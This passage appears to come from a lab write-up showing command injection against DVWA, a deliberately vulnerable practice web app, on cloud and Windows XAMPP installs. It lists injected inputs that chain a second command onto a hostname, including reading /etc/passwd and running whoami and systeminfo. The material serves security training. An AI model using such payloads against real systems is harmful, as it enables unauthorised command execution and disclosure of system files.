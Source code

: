 ![Alt text](./images/dvwa.PNG)


### 6.3 🧨 Command Injection

Command injection is a security vulnerability that allows an attacker to execute arbitrary operating system commands on the host machine running a vulnerable application

on the cloud i inputed commands like: 


```bash
google.com | pwd && whoami 
```
```bash
google.com | cat /etc/passwd
```
in similar fashion i accessed the systeminfo when i installed the DVWA on XAMP windows machine 

```bash
google.com | dir && systeminfo
```



